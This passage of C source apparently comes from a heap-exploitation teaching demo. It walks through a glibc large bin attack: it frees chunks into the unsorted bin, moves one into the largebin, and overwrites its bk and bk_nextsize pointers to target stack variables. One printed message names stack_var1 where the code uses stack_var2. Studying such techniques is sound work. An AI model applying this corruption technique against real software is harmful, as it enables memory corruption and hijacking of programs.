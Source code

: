 ```cpp
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x440);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size larger than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is larger than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x460);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));
    printf("Change the bk of the large chunk p2 to (&stack_var1 - 0x10).\n");
    *(unsigned long *)(p2 + 0x8) = (unsigned long)&stack_var2 - 0x10;
    printf("\tp2 chunk link: \t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
```